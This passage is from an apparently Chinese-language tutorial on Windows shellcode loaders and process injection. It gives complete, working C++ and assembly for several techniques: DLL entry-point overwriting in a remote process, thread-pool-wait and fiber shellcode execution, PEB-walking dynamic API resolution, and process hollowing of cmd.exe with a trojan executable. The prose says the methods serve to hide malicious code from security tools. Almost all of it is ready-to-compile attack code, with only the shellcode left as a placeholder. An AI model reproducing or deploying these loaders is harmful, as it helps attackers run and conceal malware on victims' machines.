    HMODULE hModules[256] = {};  //定义一个数组用于存储目标进程中加载的模块的句柄
    SIZE_T hModulesSize = sizeof(hModules); //计算存储模块句柄数组的大小
    DWORD hModulesSizeNeeded = 0;  //用于存储EnumProcessModules函数返回的实际需要的缓冲区大小

    DWORD moduleNameSize = 0;  //定义变量用于存储模块名称的大小（未使用）
    SIZE_T hModulesCount = 0;  //计算目标进程中模块的数量
    CHAR rModuleName[128] = {};  //定义一个字符数组用于存储远程模块的名称
    HMODULE rModule = NULL;  //定义一个变量用于存储找到的远程模块的句柄
    
    // 以可读写权限打开目标进程
    //hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 31652);

    // 在远程进程中分配内存并写入待注入DLL的路径
    LPVOID lprBuffer = VirtualAllocEx(hProcess, NULL, sizeof ModuleName, MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(hProcess, lprBuffer, (LPVOID)ModuleName, sizeof ModuleName, NULL);

    // 获取LoadLibraryW函数的地址，用于在远程进程中加载DLL
    PTHREAD_START_ROUTINE threadRoutine = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");

    // 创建远程线程以加载DLL
    HANDLE dllThread = CreateRemoteThread(hProcess, NULL, 0, threadRoutine, lprBuffer, 0, NULL);

    // 等待远程线程加载完DLL
    WaitForSingleObject(dllThread, 1000);

    // 找到在远程进程中注入的DLL的基地址
    EnumProcessModules(hProcess, hModules, hModulesSize, &hModulesSizeNeeded);
    hModulesCount = hModulesSizeNeeded / sizeof(HMODULE);
    for (size_t i = 0; i < hModulesCount; i++)
    {
        rModule = hModules[i];
        GetModuleBaseNameA(hProcess, rModule, rModuleName, sizeof(rModuleName));
        if (std::string(rModuleName).compare("amsi.dll") == 0)
        {
            break;
        }
    }

    // 获取DLL的AddressOfEntryPoint
    DWORD headerBufferSize = 0x1000;
    LPVOID peHeader = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, headerBufferSize);
    ReadProcessMemory(hProcess, rModule, peHeader, headerBufferSize, NULL);

    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)peHeader;
    PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)peHeader + dosHeader->e_lfanew);
    LPVOID dllEntryPoint = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD_PTR)rModule);

    // 将Shellcode写入DLL的AddressOfEntryPoint
    WriteProcessMemory(hProcess, dllEntryPoint, (LPCVOID)shellcode, sizeof(shellcode), NULL);

    // 从注入的DLL中执行Shellcode
    CreateRemoteThread(hProcess, NULL, 0, (PTHREAD_START_ROUTINE)dllEntryPoint, NULL, 0, NULL);

    return 0;
}

```


# 12.线程池等待

```cpp
#include <stdio.h>
#include <Windows.h>

unsigned char shellcode[] = "填写shellcode";

void ThreadPoolLoader() {
    // 定义一个DWORD变量，用于存储原始内存保护属性
    DWORD oldProtect;
    
    // 修改shellcode所在内存的保护属性为可读、可写、可执行
    VirtualProtect((LPVOID)shellcode, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &oldProtect);

    // 创建一个事件对象，初始状态为有信号状态，使用默认安全属性，非手动重置，无名称
    HANDLE event = CreateEvent(NULL, FALSE, TRUE, NULL);

    /*
    CreateThreadpoolWait用于创建一个线程池等待对象的函数,
    程池等待对象允许您在等待内核对象（如事件、信号量等）变为有信号状态时执行特定的回调函数
    其语法格式如下:
    PTP_WAIT CreateThreadpoolWait(
      PTP_WAIT_CALLBACK pfnwa,  //指向回调函数的指针
      PVOID              pv,   //传递给回调函数的参数
      PTP_CALLBACK_ENVIRON pcbe  //指向线程池回调环境的指针,置NULL则表示使用默认的环境
    );
    */
    // 创建一个线程池等待对象，关联到shellcode作为回调函数，回调函数参数和线程池环境为NULL
    PTP_WAIT threadPoolWait = CreateThreadpoolWait((PTP_WAIT_CALLBACK)(LPVOID)shellcode, NULL, NULL);


    /*
    SetThreadpoolWait函数用于线程池中添加等待对象的函数。
    当等待的内核对象（如事件、信号量等）变为有信号状态时，线程池会调用与等待对象关联的回调函数
    其语法格式如下:
    VOID SetThreadpoolWait(
      PTP_WAIT pwa,  //指向要添加到线程池的等待对象的指针
      HANDLE   hObject,  //要等待的内核对象的句柄,当这个内核对象变为有信号状态时,线程池会调用与等待对象关联的回调函数
      PFILETIME pftTimeout  //指向一个FILETIME结构的指针，表示等待超时的时间
    );
    */
    // 将等待对象添加到线程池中,当事件对象event触发（变为有信号状态）时，线程池会调用与threadPoolWait关联的回调函数
    SetThreadpoolWait(threadPoolWait, event, NULL);

    // 等待事件对象变为无信号状态（表示shellcode执行完毕），无限等待
    WaitForSingleObject(event, INFINITE);
}

void main() {
    ThreadPoolLoader();
}
```


# 13.创建纤程加载

## 什么是纤程

纤程（Fiber）是一种轻量级的线程，也被称为协程（Coroutine）或微线程（Microthread）。它们是一种用户级别的线程，由程序自身管理，而不是由操作系统内核管理。纤程是一种可以提高程序执行效率的调度机制，特别适用于需要大量并发执行任务的场景


## 实现代码

```cpp
#include <stdio.h>
#include <Windows.h>

int main() {
    unsigned char buf[] = "shellcode";

    // 修改shellcode所在内存的保护属性为可读、可写、可执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);

    // 将当前线程转换为纤程（轻量级线程）
    ConvertThreadToFiber(NULL);

    // 创建一个纤程对象，关联到shellcode作为纤程入口点，使用默认栈大小和无标志位
    void* shellcodeFiber = CreateFiber(0, (LPFIBER_START_ROUTINE)(LPVOID)buf, NULL);

    // 切换到新创建的纤程，开始执行shellcode
    SwitchToFiber(shellcodeFiber);

    // shellcode执行完毕后，删除纤程对象
    DeleteFiber(shellcodeFiber);

    return 0;
}
```


# 14.动态api函数加载

## 简介

传统的静态导入API函数会在可执行文件的导入表中明确列出所有用到的函数。这使得恶意代码容易被安全工具和分析人员发现，因为敏感API函数的使用通常表明了恶意行为。

而动态调用API函数，如本示例中的代码所展示的，可以在运行时动态解析并获取API函数的地址。这样，敏感函数不会出现在导入表中，从而使得恶意代码更难被发现。此外，动态调用API函数还可以结合其他技术（如代码混淆、加密等）来进一步提高恶意代码的隐蔽性


## 实现思路

- 定位关键模块：首先找到包含核心API函数的关键模块（如kernel32.dll）。这通常可以通过解析PEB（Process Environment Block）中的模块列表来完成。
- 获取GetProcAddress：定位到kernel32.dll后，需要解析导出表（Export Table）以获取GetProcAddress函数的地址。GetProcAddress是一个核心函数，用于在运行时动态解析其他API函数的地址。
- 加载其他API：通过GetProcAddress函数，可以逐个获取其他需要的API函数的地址。例如，可以通过GetProcAddress获取VirtualProtect、CreateThread和WaitForSingleObject等函数的地址。
- 准备Shellcode：将Shellcode存储在缓冲区中，使用VirtualProtect函数将缓冲区的内存页属性更改为可执行，以确保可以安全地执行Shellcode。
- 创建线程并执行Shellcode：使用CreateThread函数创建一个新线程，并将Shellcode的地址作为线程的启动例程。线程创建后，使用WaitForSingleObject等待线程执行完成


## x86代码实现

```cpp
#include <stdio.h>
#include <windows.h>

//声明定义api函数
typedef FARPROC(WINAPI* p_GetProcAddress)(_In_ HMODULE hModule, _In_ LPCSTR lpProcName);
typedef HMODULE(WINAPI* p_LoadLibraryA)(__in LPCSTR lpLibFileName);
typedef BOOL(WINAPI* p_VirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
typedef HANDLE(WINAPI* p_CreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
typedef DWORD(WINAPI* p_WaitForSingleObject)(HANDLE, DWORD);


// 内联汇编函数，用于获取Kernel32.dll模块的基地址
HMODULE inline __declspec(naked) GetKernel32Moudle()
{
    __asm
    {
        mov eax, fs: [0x30] ;
        mov eax, [eax + 0xc];
        mov eax, [eax + 0x14]
            mov eax, [eax];
        mov eax, [eax];
        mov eax, [eax + 0x10];
        ret;
    }
}

//获取GetProcAddress函数的地址
DWORD pGetProcAddress(HMODULE Kernel32Base) {
    char szGetProcAddr[] = { 'G','e','t','P','r','o','c','A','d','d','r','e','s','s',0 };
    DWORD result = NULL;

    // 遍历kernel32.dll的导出表，找到GetProcAddr函数地址
    PIMAGE_DOS_HEADER pDosHead = (PIMAGE_DOS_HEADER)Kernel32Base;
    PIMAGE_NT_HEADERS pNtHead = (PIMAGE_NT_HEADERS)((DWORD)Kernel32Base + pDosHead->e_lfanew);
    PIMAGE_OPTIONAL_HEADER pOptHead = (PIMAGE_OPTIONAL_HEADER)&pNtHead->OptionalHeader;
    PIMAGE_EXPORT_DIRECTORY pExport = (PIMAGE_EXPORT_DIRECTORY)((DWORD)Kernel32Base + pOptHead->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    DWORD* pAddOfFun_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfFunctions);
    WORD* pAddOfOrd_Raw = (WORD*)((DWORD)Kernel32Base + pExport->AddressOfNameOrdinals);
    DWORD* pAddOfNames_Raw = (DWORD*)((DWORD)Kernel32Base + pExport->AddressOfNames);
    char* pFinded = NULL, * pSrc = szGetProcAddr;
    for (DWORD dwCnt = 0; dwCnt < pExport->NumberOfNames; dwCnt++)
    {
        pFinded = (char*)((DWORD)Kernel32Base + pAddOfNames_Raw[dwCnt]);
        while (*pFinded && *pFinded == *pSrc)
        {
            pFinded++; pSrc++;
        }
        if (*pFinded == *pSrc)
        {
            result = (DWORD)Kernel32Base + pAddOfFun_Raw[pAddOfOrd_Raw[dwCnt]];
            break;
        }
        pSrc = szGetProcAddr;
    }
    return result;
}


int main() {
    unsigned char buf[] = "填写x86的shellcode";

    HMODULE hKernal32 = GetKernel32Moudle(); // 获取Kernel32模块的地址
    p_GetProcAddress GetProcAddress = (p_GetProcAddress)pGetProcAddress(hKernal32); // 获取GetProcAddress函数的地址
    p_VirtualProtect VirtualProtect = (p_VirtualProtect)GetProcAddress(hKernal32, "VirtualProtect");  //获取VirtualProtect函数地址
    p_CreateThread CreateThread = (p_CreateThread)GetProcAddress(hKernal32, "CreateThread");  //获取CreateThread函数地址
    p_WaitForSingleObject WaitForSingleObject = (p_WaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject");  //获取WaitForSingleObject函数地址

    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);

    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)(LPVOID)buf, NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```


## x64代码实现

由于x64无法编写内联汇编代码, 因此需另创一个asm文件来进行编写

		


此处我创建了一个`GetInitializationOrderModuleList.asm`, 用于获取`InitializationOrderModuleList`, 其代码如下所示:

```asm
.CODE
    GetInInitializationOrderModuleList PROC
    mov rax,gs:[60h] ; PEB，注意，这里不能写0x60
    mov rax,[rax+18h] ; PEB_LDR_DATA
    mov rax,[rax+30h] ; InInitializationOrderModuleList
    ret ; 这里不能写retn
    GetInInitializationOrderModuleList ENDP
END
```


随后鼠标右键单击新建的asm文件, 选择属性, 在常规选项处将`从生成中排除`设置为`否`, 项类型设置为`自定义生成工具`

	


在自定义生成工具选项处, 在命令行框输入:`ml64 /Fo $(IntDir)%(fileName).obj /c %(fileName).asm`, 在输出框输入:`$(IntDir)%(FileName).obj`

	


打开项目属性，勾选`C/C++->代码生成->禁用安全检查`

	


以下是shellcode加载代码

```cpp
#include <stdio.h>
#include <windows.h>

// UNICODE_STRING 结构体定义
typedef struct _UNICODE_STRING {
    USHORT Length;  //表示字符串中的字符数,由于它是unicode形式的字符,因此每个字符占两个字节
    USHORT MaximumLength;  //分配的内存空间的大小，以字节为单位
    PWSTR Buffer;  //表示指向存储Unicode字符串的字符数组的指针
} UNICODE_STRING, * PUNICODE_STRING;

// 声明获取 InInitializationOrderModuleList 链表的函数
extern "C" PVOID64 __stdcall GetInInitializationOrderModuleList();

// 获取 Kernel32.dll 的基地址
HMODULE getKernel32Address() {
    // 获取 InInitializationOrderModuleList 链表
    LIST_ENTRY* pNode = (LIST_ENTRY*)GetInInitializationOrderModuleList();
    while (1) {
        // 获取 FullDllName 成员
        UNICODE_STRING* FullDllName = (UNICODE_STRING*)((BYTE*)pNode + 0x38);
        // 如果 Buffer 中的第 13 个字符为空字符，则已找到 Kernel32.dll
        if (*(FullDllName->Buffer + 12) == '\0') {
            // 返回模块的基地址
            return (HMODULE)(*((ULONG64*)((BYTE*)pNode + 0x10)));
        }
        pNode = pNode->Flink;
    }
}

// 获取 GetProcAddress 函数的地址
DWORD64 getGetProcAddress(HMODULE hKernal32) {
    // 获取 DOS 头
    PIMAGE_DOS_HEADER baseAddr = (PIMAGE_DOS_HEADER)hKernal32;
    // 获取 NT 头
    PIMAGE_NT_HEADERS pImageNt = (PIMAGE_NT_HEADERS)((LONG64)baseAddr + baseAddr->e_lfanew);
    // 获取导出表
    PIMAGE_EXPORT_DIRECTORY exportDir = (PIMAGE_EXPORT_DIRECTORY)((LONG64)baseAddr + pImageNt->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
    // 获取导出函数地址数组、导出函数名数组和导出函数序号数组
    PULONG RVAFunctions = (PULONG)((LONG64)baseAddr + exportDir->AddressOfFunctions);
    PULONG RVANames = (PULONG)((LONG64)baseAddr + exportDir->AddressOfNames);
    PUSHORT AddressOfNameOrdinals = (PUSHORT)((LONG64)baseAddr + exportDir->AddressOfNameOrdinals);

    // 遍历导出函数
    for (size_t i = 0; i < exportDir->NumberOfNames; i++) {
        // 获取当前函数地址
        LONG64 F_va_Tmp = (ULONG64)((LONG64)baseAddr + RVAFunctions[(USHORT)AddressOfNameOrdinals[i]]);
        // 获取当前函数名地址
        PUCHAR FunctionName = (PUCHAR)((LONG64)baseAddr + RVANames[i]);
        // 如果当前函数名是 "GetProcAddress"，返回其地址
        if (!strcmp((const char*)FunctionName, "GetProcAddress")) {
            return F_va_Tmp;
        }
    }
}

// 定义函数指针类型
typedef FARPROC(WINAPI* pGetProcAddress)(HMODULE, LPCSTR);
typedef BOOL(WINAPI* pVirtualProtect)(LPVOID, DWORD, DWORD, PDWORD);
typedef HANDLE(WINAPI* pCreateThread)(LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
typedef DWORD(WINAPI* pWaitForSingleObject)(HANDLE, DWORD);

int main() {
    // 定义包含 shellcode 的缓冲区
    unsigned char buf[] =
        "填写x64的shellcode";

    // 获取 Kernel32.dll 的基地址和GetProcAddress函数地址
    HMODULE hKernal32 = getKernel32Address(); // 获取Kernel32.dll的基地址
    pGetProcAddress GetProcAddress = (pGetProcAddress)getGetProcAddress(hKernal32); // 获取GetProcAddress函数地址
    
    //获取其他所需API函数地址
    pVirtualProtect VirtualProtect = (pVirtualProtect)GetProcAddress(hKernal32, "VirtualProtect");
    pCreateThread CreateThread = (pCreateThread)GetProcAddress(hKernal32, "CreateThread");
    pWaitForSingleObject WaitForSingleObject = (pWaitForSingleObject)GetProcAddress(hKernal32, "WaitForSingleObject");
    
    //修改shellcode缓冲区的内存保护属性，以便执行
    DWORD oldProtect;
    VirtualProtect((LPVOID)buf, sizeof(buf), PAGE_EXECUTE_READWRITE, &oldProtect);
    
    //创建新线程执行shellcode并等待其执行完成
    HANDLE hThread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)(LPVOID)buf, NULL, 0, NULL);
    WaitForSingleObject(hThread, INFINITE);
    return 0;
}
```


# 15.进程镂空注入

## 简介

进程镂空（Process Hollowing），又称为“傀儡进程”，是一种恶意软件（malware）利用的代码注入技术。它主要用于将恶意代码注入到合法进程中，以规避安全检测、提高恶意代码执行的隐蔽性和稳定性


## 实现思路

### 1.创建挂起进程

创建一个新的目标进程（这里是cmd.exe），并将其创建为挂起状态，这样它的主线程不会立即执行

```cpp
BOOL bRet = CreateProcessA(
    NULL,
    (LPSTR)"cmd",
    NULL,
    NULL,
    FALSE,
    CREATE_SUSPENDED,
    NULL,
    NULL,
    &si,
    &pi);
```


### 2.读取恶意程序的内容

```cpp
//读取恶意程序的内容至本进程内存中
hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
CloseHandle(hFile);

//获取恶意程序的文件头信息(Dos头和Nt头)
pDosHeaders = (PIMAGE_DOS_HEADER)FileImage;  //获取Dos头
pNtHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)FileImage + pDosHeaders->e_lfanew); //获取NT头
```


### 3.获取挂起进程的线程上下文和映像基址

在挂起创建的进程中，`EBX`（在x86架构下）和`RDX`（在x64架构下）寄存器通常用于存储指向`PEB`（进程环境块）的指针。`PEB`是一个包含进程相关信息的数据结构，例如映像基地址、操作系统版本等。

```cpp
//获取挂起进程的上下文
GetThreadContext(pi.hThread, &ctx); 
  
//获取可执行
#ifdef _WIN64
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
    // 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
    // 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL);
#endif
```


### 4.卸载挂起进程的内存

如果挂起进程的映像基址和恶意程序的映像基址相同，则调用NtUnmapViewOfSection卸载原始进程映像

```cpp
//判断文件预期加载地址是否被占用
pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase)
{
    NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
}
```


### 5.将恶意程序内容写入目标进程

先将恶意程序的头部信息写入目标进程，随后逐节将恶意程序的各个节写入

```cpp
//为可执行映像分配内存,并写入文件头
RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL);

//逐段写入
for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
{
pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL);
}
```


### 6.更新目标进程的线程上下文

将程序计数器（EAX/RAX 或 ECX/RCX 寄存器）设置为替换映像的入口点地址，并更新目标进程PEB中的映像基地址

```cpp
#ifdef _WIN64
    ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
#endif
#ifdef _X86_
    ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
#endif
```


设置目标进程的线程上下文，使其使用新的上下文信息

```cpp
SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
```


### 7.恢复目标进程的主线程

```cpp
ResumeThread(pi.hThread); // 恢复挂起线程
```


## 完整代码

```cpp
#include <stdio.h>
#include <Windows.h>
typedef NTSTATUS(NTAPI* pNtUnmapViewOfSection)(HANDLE, PVOID);

int main(int argc, wchar_t* argv[])
{   
    // 定义变量和结构体
    IN PIMAGE_DOS_HEADER pDosHeaders;
    IN PIMAGE_NT_HEADERS pNtHeaders;
    IN PIMAGE_SECTION_HEADER pSectionHeaders;
    IN PVOID FileImage;
    IN HANDLE hFile;
    OUT DWORD FileReadSize;
    IN DWORD dwFileSize;
    IN PVOID RemoteImageBase;
    IN PVOID RemoteProcessMemory;
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    si.cb = sizeof(si);
   
    //用于替换的恶意程序
    char path[] = "E:\\muma.exe";
    
    // 创建挂起的cmd进程
    BOOL bRet = CreateProcessA(
        NULL,
        (LPSTR)"cmd",
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        NULL,
        &si,
        &pi);
    
    //读取恶意程序的内容至本进程内存中
    hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    dwFileSize = GetFileSize(hFile, NULL); //获取替换可执行文件的大小
    FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
    CloseHandle(hFile);
    
    //获取恶意程序的文件头信息(Dos头和Nt头)
    pDosHeaders = (PIMAGE_DOS_HEADER)FileImage;  //获取Dos头
    pNtHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)FileImage + pDosHeaders->e_lfanew); //获取NT头
    
    //获取挂起进程的上下文
    GetThreadContext(pi.hThread, &ctx); 

    
 //获取挂起进程的映像基址
#ifdef _WIN64
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
    // 从rbx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#endif
    // 从ebx寄存器中获取PEB地址，并从PEB中读取可执行映像的基址
#ifdef _X86_
    ReadProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL);
#endif
    

    //判断文件预期加载地址是否被占用
    pNtUnmapViewOfSection NtUnmapViewOfSection = (pNtUnmapViewOfSection)GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtUnmapViewOfSection");
    if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase)
    {
        NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); //卸载已存在文件
    }

    //为可执行映像分配内存,并写入文件头
    RemoteProcessMemory = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, RemoteProcessMemory, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL);
    
    //逐段写入
    for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
    {
        pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
        WriteProcessMemory(pi.hProcess, (PVOID)((LPBYTE)RemoteProcessMemory + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL);
    }
    
    //将rax寄存器设置为注入软件的入口点
#ifdef _WIN64
    ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
#endif
    //将eax寄存器设置为注入软件的入口点
#ifdef _X86_
    ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
    /*
    lea eax
    call eax
    */
#endif
    SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
    ResumeThread(pi.hThread); // 恢复挂起线程
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return 0;
}
```

